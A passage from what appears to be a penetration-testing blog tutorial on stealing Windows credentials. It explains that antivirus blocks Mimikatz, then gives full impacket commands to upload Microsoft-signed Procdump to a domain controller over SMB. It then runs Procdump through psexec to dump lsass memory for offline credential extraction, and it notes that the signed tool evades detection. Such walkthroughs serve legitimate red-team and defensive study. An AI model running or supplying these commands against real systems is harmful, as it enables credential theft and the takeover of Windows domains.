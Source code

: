 This is why Mimikatz extracts the information located in these different SSPs in an attempt to find some authentication secrets, and displays them to the attacker. Thus, if a privileged account is connected to one of the compromised hosts, the Mimikatz module allows you to quickly extract its credentials and thus take advantage of the privileges of this account to compromise more resources.

But today, the majority of antivirus detects the presence and/or execution of Mimikatz and blocks it so CrackMapExec module is just hanging, waiting for a response from the server, but it never gets it because the process was killed.

## Manual method : Procdump

Because of this, I used to do this manually with the tool called [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

Procdump is a tool from the [Sysinternals suite](https://docs.microsoft.com/en-us/sysinternals/) which was written by [Marc Russinovich](https://blogs.technet.microsoft.com/markrussinovich/) to helps sysadmins. This toolset has been adopted by a large number of administrators and developers, so Microsoft decided to buy it in 2006, and the executables are now signed by Microsoft, therefore considered legitimate by Windows.

The procdump tool is one of these tools, and its job is to dump a running process memory. It attaches to the process, reads its memory and write it into a file.

```
procdump --accepteula -ma <processus> processus_dump.dmp
```

As explained, Mimikatz looks for credentials in **lsass** memory. Because of this, it's possible to dump lsass memory on a host, download its dump locally and extract the credentials using Mimikatz.

Procdump can be used to dump lsass, since it is considered as legitimate thus it will not be considered as a malware.

To do so, send procdump to the server, using `smbclient.py` from the suite [impacket](https://github.com/SecureAuthCorp/impacket) for example.

[![Put Procdump](/assets/uploads/2019/11/put_procdump.png)](/assets/uploads/2019/11/put_procdump.png)

```bash
smbclient.py ADSEC.LOCAL/jsnow@DC01.adsec.local
```

```
# use C$
# cd Windows
# cd Temp
# put procdump.exe
```

Once uploaded, procdump needs to be executed in order to create this lsass dump.

[![Excute Procdump](/assets/uploads/2019/11/execute_procdump.png)](/assets/uploads/2019/11/execute_procdump.png)

```bash
psexec.py adsec.local/jsnow@DC01.adsec.local "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"
```
